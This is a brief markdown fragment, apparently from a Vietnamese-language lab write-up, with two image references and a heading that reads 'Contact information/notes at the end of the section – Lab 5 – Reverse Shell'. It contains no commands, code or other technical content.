

### Thông tin liên hệ/ghi chú cuối phần – Lab 5 – Reverse Shell


